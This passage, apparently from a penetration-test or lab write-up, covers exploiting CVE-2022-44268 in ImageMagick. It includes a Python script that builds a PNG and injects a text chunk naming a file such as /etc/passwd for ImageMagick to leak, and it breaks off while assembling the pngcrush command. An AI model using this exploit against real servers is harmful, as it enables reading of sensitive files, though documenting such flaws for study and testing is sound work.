 ![CVE-2022-44268](report/screenshot/2023-07-05_07-05.png)

We can use this vulnerability to read files for which ImageMagick has permissions, causing it to process an image in PNG format with arbitrary code inside.

I wrote the following script in Python to create a simple 100x100px black image with the malicious code inside:


```python
from PIL import Image
import subprocess
from termcolor import colored

# Create Image --------------------------------------------------------------->

filename = input("Insert image filename: ")
image = Image.new("RGB", (100, 100))
image.save(filename)

# Injects the malicious text chunk ------------------------------------------->

file_to_read = input("Insert file to read (es:'/etc/passwd'): ") 

print(colored(
 f"\n[*] exec: pngcrush -text a profile {file_to_read} {filename} "
 "malicious.png\n",
 "blue"))

cmd = [
 'pngcrush', 
 '-text', 
 'a', 
 'profile', 
 file_to_read, 
 filename, 
 'malicious.png'
```